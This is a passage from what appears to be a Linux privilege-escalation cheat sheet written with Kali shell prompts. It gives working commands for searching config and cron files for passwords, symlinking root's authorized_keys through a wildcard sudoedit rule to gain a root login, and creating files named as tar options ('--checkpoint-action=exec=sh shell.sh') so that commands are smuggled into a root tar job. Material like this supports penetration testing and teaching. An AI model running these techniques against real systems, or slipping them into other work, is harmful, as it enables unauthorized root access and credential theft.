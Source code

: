 # Be creative
Kali> cat /etc/cron.*/* | grep SEARCHSTRING

# Mix it up
Kali> find / -type f -name '*.conf' | xargs grep -rnw -3 "Password" 2>/dev/null



##### Unmounted drives

Kali> cat /etc/fstab
Kali> mount



##### Exim

Kali> exim -bV -v | grep -i Perl



##### Wildcard Manipulation

> ###### Resources

[UNIX Wildcards gone wild](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)

> ###### Sudoedit

# if sudoedit is using wildcards you can escape out with a few techniques
# Such as:  (root) NOPASSWD: sudoedit /var/www/*/*/file.html
Kali> ln -s /root/.ssh/authorized_keys /var/www/testing/testdir/file.html
# Now when you add your key to this file, you will be able to login to root, for example



> ###### Tar

# If there is a script running as an authorized user that uses wildcards to tar a folder, you can inject command line arguments via:
Kali> echo '' > "--checkpoint-action=exec='sh shell.sh'"
Kali> echo '' > "--checkpoint=1"



